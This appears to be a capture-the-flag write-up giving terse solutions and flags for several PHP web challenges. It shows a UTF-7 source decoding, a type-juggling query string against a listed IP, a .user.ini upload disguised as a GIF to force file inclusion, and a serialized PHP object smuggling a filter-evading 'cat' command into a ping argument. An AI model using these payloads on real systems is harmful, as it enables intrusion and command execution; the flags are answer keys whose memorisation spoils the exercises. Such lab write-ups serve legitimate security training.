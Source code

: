 ```shell
</code>+ADw?php
+ACQ-flag+AD0'cyberpeace+AHs-2bc2a31870c55639d834b8c865806994+AH0'+ADs

$ iconv -f 'utf-7' -t 'utf-8' << EOF
+ADw?php +ACQ-flag+AD0'cyberpeace+AHs-2bc2a31870c55639d834b8c865806994+AH0'+ADs
EOF

<?php $flag='cyberpeace{2bc2a31870c55639d834b8c865806994}';
```

flag: `cyberpeace{2bc2a31870c55639d834b8c865806994}`

### easyphp

```
http://61.147.171.105:49727/?a=9e9&b=bDIOS&c={"m":"2023a","n":[[],0]}
```

flag: `cyberpeace{f675ccdb33fbae4237a47cf8a91cdf7a}`

### easyupload

```http
------WebKitFormBoundaryhTApMVmLfO50Detu
Content-Disposition: form-data; name="fileUpload"; filename=".user.ini"
Content-Type: image/gif

GIF89a
auto_prepend_file=a.jpg

------WebKitFormBoundaryhTApMVmLfO50Detu
```

flag: `cyberpeace{433a0b30c58b31ee8d3bd3f601e1b140}`

### unseping

```php
<?php

class ease {
    private $method;
    private $args;

    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
}

$e = new ease("ping", ['ca""t${IFS}fl""ag_1s_here$(printf${IFS}"\057")fl""ag_831b69012c67b35f.ph""p']);

echo base64_encode(serialize($e));
?>
```
